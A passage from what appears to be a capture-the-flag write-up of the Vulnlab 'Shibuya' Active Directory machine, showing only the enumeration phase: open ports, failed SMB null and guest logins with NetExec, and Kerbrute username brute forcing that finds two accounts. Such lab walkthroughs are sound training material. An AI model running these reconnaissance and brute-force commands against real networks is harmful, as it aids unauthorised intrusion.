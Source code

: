 ```yaml
---
title: "Vulnlab - Shibuya"
date: 2025-02-28 12-23-00
image: /assets/img/post_covers/shibuya.jpg
categories: [CTF]
tags: [Active Directory, Windows, Vulnlab, cross-session relay, ADCS]
---
```


# Enumeration
Given the IP address and the ports of the machine:
```
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```
We should notice that there is the **SSH** service and no **LDAP/LDAPS** port exposed, and I will first start with the **SMB Null session + Guest Logon**:

```
nxc smb awsjpdc0522.shibuya.vl -u '' -p '' --shares
SMB         10.10.80.206    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.80.206    445    AWSJPDC0522      [+] shibuya.vl\: 
SMB         10.10.80.206    445    AWSJPDC0522      [-] Error enumerating shares: STATUS_ACCESS_DENIED

nxc smb awsjpdc0522.shibuya.vl -u 'dwgth4i' -p '' --shares 
SMB         10.10.80.206    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.80.206    445    AWSJPDC0522      [-] shibuya.vl\dwgth4i: STATUS_LOGON_FAILURE
```
So none of them work, next I will try to brute forcing username using [Kerbrute](https://github.com/ropnop/kerbrute) userenum module.
```
./kerbrute_linux_amd64 userenum -d shibuya.vl --dc AWSJPDC0522.shibuya.vl /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/27/25 - Ronnie Flathers @ropnop

2025/02/27 21:54:02 >  Using KDC(s):
2025/02/27 21:54:02 >   AWSJPDC0522.shibuya.vl:88

2025/02/27 21:54:05 >  [+] VALID USERNAME:       purple@shibuya.vl
2025/02/27 21:54:10 >  [+] VALID USERNAME:       red@shibuya.vl
```
